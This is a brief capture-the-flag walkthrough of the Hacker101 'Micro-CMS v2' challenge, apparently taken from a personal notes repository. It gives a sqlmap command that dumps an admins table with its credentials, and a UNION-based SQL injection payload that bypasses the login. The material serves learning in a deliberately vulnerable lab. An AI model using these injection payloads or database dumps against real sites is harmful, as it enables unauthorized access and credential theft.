



# Micro-CMS v2

`
Blind SQLi

SQLmap

```bash
--level 5 --risk 3 -p username --batch --threads 10 -T admins -D level2 -  
-dump
```

```text
+----+----------+----------+  
| id | password | username |  
+----+----------+----------+  
| 1  | cheryl   | joellen  |  
+----+----------+----------+
```


Change request method



SQLi

```sql
test' UNION SELECT 'danidani'-- -
```



```sql
SELECT password FROM admins where username='joellen'
```
returns cheryl

```sql
SELECT password FROM admins where username='joellen' UNION SELECT 'password'
```
returns cheryl

```sql
SELECT password FROM admins where username='test' UNION SELECT 'password'
```
returns password (with no real username)




```sql
SELECT password FROM admins where username='test' UNION SELECT 'danidani'
```
returns danidani (with no real username)

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | BB/Hackerone/3 - Micro-CMS v2.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
